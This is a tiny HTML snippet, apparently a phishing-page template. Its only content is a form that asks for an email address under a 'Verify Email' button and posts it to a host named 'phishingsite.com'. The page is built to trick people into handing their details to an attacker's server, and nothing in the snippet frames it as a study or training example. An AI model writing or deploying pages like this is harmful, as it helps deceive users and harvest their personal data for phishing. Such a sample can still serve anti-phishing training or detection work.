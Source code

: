 <html>
  <body>
    <form action="http://phishingsite.com/verify" method="post">
      <input type="email" name="email" placeholder="Enter your email">
      <input type="submit" value="Verify Email">
    </form>
  </body>
</html>
